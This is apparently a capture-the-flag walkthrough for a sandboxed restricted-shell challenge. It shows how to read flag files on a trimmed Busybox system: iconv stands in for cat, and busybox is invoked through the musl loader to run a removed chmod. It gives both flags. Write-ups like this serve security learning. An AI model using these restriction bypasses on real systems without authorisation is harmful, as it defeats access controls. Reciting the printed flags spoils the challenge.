 Your Choice!


    Having found the information you were looking for, while detailed, 
    it presents you with an interesting dilemma. There is a network of 
    "computers" not completely dissimilar to your computrator-machine 
    on your ship. You find yourself in possession of the credentials of 
    an individual on the planet named "SarahH." Great, with these you 
    can get right into the secret world of an earthling without them 
    knowing you're there. You access "SarahH home network," to find two 
    computers: "work" and "home." Not knowing what either of these are, 
    you have to make a decision.


No decisions, no compromises - we will hack both. Or else why we are 
sitting with laptop at home in such a great summer weekend?

Work Computer (ORME) (**sandbox**)

    With the confidence of conviction and decision making skills that 
    made you a contender for Xenon's Universal takeover council, now 
    disbanded, you forge ahead to the work computer. This machine 
    announces itself to you, surprisingly with a detailed description 
    of all its hardware and peripherals. Your first thought is "Why 
    does the display stand need to announce its price? And exactly how 
    much does 999 dollars convert to in Xenonivian Bucklets?" You 
    always were one for the trivialities of things. Also presented is 
    an image of a fascinating round and bumpy creature, labeled 
    "Cauliflower for cWo" - are "Cauliflowers" earthlings? Your 40 
    hearts skip a beat - these are not the strange unrelatable bipeds 
    you imagined earthings to be.. this looks like your neighbors back 
    home. Such curdley lobes. Will it be at the party? SarahH, who 
    appears to be a programmer with several clients, has left open a 
    terminal. Oops. Sorry clients! Aliens will be poking around 
    attempting to access your networks.. looking for Cauliflower. That 
    is, *if* they can learn to navigate such things.

There is some network address, let's try to connect to it.

    $ nc readme.ctfcompetition.com 1337
    > whoami
    whoami: unknown uid 1338
    > ls -l
    total 8
    ----------    1 1338     1338            33 Jun 25 19:21 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:21 README.flag
    > cat README.flag
    error: No such file or directory

Well, we have a shell, we have two files that must be read, but we 
have not `cat` (and `grep`). We plan to read both, of course.
Let's have a look what we have then.

    > ls -l /bin /sbin /usr/bin /usr/sbin                                         
    /bin:
    total 800
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 arch -> /bin/busybox
    -rwxr-xr-x    1 65534    65534       796240 Jan 24 07:45 busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chgrp -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chown -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 conspy -> /bin/busybox
    ..............
    /sbin:
    total 228
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 acpid -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adjtimex -> /bin/busybox
    ..............
    /usr/bin:
    total 1984
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [ -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [[ -> /bin/busybox
    ..............
    -rwxr-xr-x    1 65534    65534        25216 Mar 19 09:56 iconv
    ..............
    -rwxr-xr-x    1 65534    65534        83744 Nov 15  2018 scanelf
    ..............
    /usr/sbin:
    total 16
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 addgroup -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adduser -> /bin/busybox
    ..............
    > 

Wow, a lot of stuff! First of all, this is Busybox system. It means 
that most of utilities are embedded in `busybox` executable and almost 
all other are just symlinks to it. Busybox first checks `argv[0]` value 
and executed appropriate piece of code. But also certain utility can be 
invoked by executing `busybox` directly and giving it proper arguments.
Try it:

    > busybox cat README.flag
    busybox can not be called for alien reasons.

Aha, this is modified version of busybox. After all, it would be too 
easy.
But still there are A LOT of stuff. And a lot of possible solutions. 
If we have little or no expirience with unix-like environments, then we 
can just go through the list command-by-command and read each man-page 
on the web. Quickly we can find, for example, that `iconv` utility can 
be used to read any file and print it to the terminal possibly but not 
necessary doing codepage conversion. Give it a try:

    > iconv README.flag
    CTF{4ll_D474_5h4ll_B3_Fr33}
    > iconv ORME.flag
    iconv: ORME.flag: Permission denied

First flag is ours:

**CTF{4ll_D474_5h4ll_B3_Fr33}**

For the second one we need to find a way to change it's permission 
flags. Fortunately we are the owner of this file and are capable to 
change it's permissions. Unfortunately, `chmod` utility is abscent.
It is obvious, that `chmod` symlink is removed, but code of it is still 
contained in `busybox`. And maybe in some other places. Check it:

    > scanelf -s chmod -R /
     TYPE   SYM FILE 
    ET_DYN chmod /lib/libcrypto.so.1.1 
    ET_DYN chmod /lib/ld-musl-x86_64.so.1 
    ET_DYN chmod /usr/bin/upx 
    ET_DYN chmod /bin/busybox 

Yep, it is there. And `upx` utility looks very suspicious and certainly 
can be used to solve issue. But let's do some googling first, it is 
their contest after all!
Googling "*change permissions without chmod*" immidiately leads us to 
the StackOverflow page with description of trick with loader 
`/lib/ld-linux.so`. Just use it to run `busybox` and `chmod` in it:

    > ls /lib
    apk
    firmware
    ld-musl-x86_64.so.1
    libc.musl-x86_64.so.1
    libcrypto.so.1.1
    libssl.so.1.1
    libz.so.1
    libz.so.1.2.11
    mdev
    > /lib/ld-musl-x86_64.so.1 /bin/busybox chmod +r ORME.flag
    > ls -l
    total 8
    -r--r--r--    1 1338     1338            33 Jun 25 19:51 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:51 README.flag
    > iconv ORME.flag
    CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}

**CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**
